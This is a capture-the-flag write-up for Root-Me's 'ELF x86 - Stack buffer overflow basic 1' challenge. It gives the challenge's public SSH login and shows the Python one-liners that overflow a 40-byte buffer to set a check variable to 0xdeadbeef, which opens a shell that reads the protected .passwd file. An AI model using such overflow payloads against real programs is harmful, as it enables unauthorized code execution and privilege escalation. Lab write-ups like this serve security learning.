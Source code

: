 # ELF x86 - Stack buffer overflow basic 1
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch13@challenge02.root-me.org   
Username	app-systeme-ch13
Password	app-systeme-ch13
```

According to the source code (provided in the challenge page), the goal is to change the _check_ variable to 0xdeadbeef.<br>
In addition, the executable will print the values of _check_ and _buf_.<br>

As you may see in the source code, the _buf_ variable is 40 bytes long, and it comes right after the _check_ variable. So, in order to
overwrite the _check_, one should fill the _buf_ variable and then enter the wanted value of check - there is no boundary check so it's possible.<br>

A quick check for validating the last statement:
```sh
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'DDDD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x44444444

You are on the right way!
```

As you may see, the _check_ value is now "DDDD". So let's change it to 0xdeadbeef:
```sh
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
id
uid=1113(app-systeme-ch13) gid=1113(app-systeme-ch13) euid=1213(app-systeme-ch13-cracked) groups=1213(app-systeme-ch13-cracked),100(users),1113(app-systeme-ch13)
cat .passwd
<censored>
```
(The _cat_ and the '-' are used for keeping the shell open)
